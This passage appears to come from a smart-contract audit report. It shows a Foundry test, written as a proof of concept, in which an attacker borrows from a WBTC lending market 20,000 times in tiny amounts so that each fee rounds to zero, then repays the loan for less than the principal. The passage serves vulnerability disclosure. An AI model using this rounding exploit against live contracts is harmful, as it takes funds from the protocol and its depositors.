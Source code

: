 ```solidity

        // Attacker deposits liquidity and borrows from the same pool
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        deal(address(wbtc), attacker, 1e8);
        wbtc.approve(address(marketWBTC), type(uint256).max);
        marketWBTC.deposit(1e8, attacker);

        // Attacker borrows a tiny amount to round the fee to 0
        // Doing it lots of times you end up with a big loan with a fee of 0
        for (uint i = 0; i < 20_000; i++) {
            marketWBTC.borrowAtMaturity(
                maturity,
                190,
                type(uint256).max,
                attacker,
                attacker
            );
        }

        (uint256 principal, uint256 fee) = marketWBTC.fixedBorrowPositions(
            maturity,
            attacker
        );

        assertEq(principal, 0.038e8); // Loan of 0.038 WBTC (~2400 USD)
        assertEq(fee, 0);

        // Repay all the loan
        uint256 actualRepayAssets = marketWBTC.repayAtMaturity(
            maturity,
            type(uint256).max,
            type(uint256).max,
            attacker
        );

        assertEq(actualRepayAssets, 0.03786283e8); // Repay 0.037 WBTC

        assertGt(principal, actualRepayAssets); // The attacker has repaid the loan of 0.038 WBTC with 0.037 WBTC
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L320

## Tool used
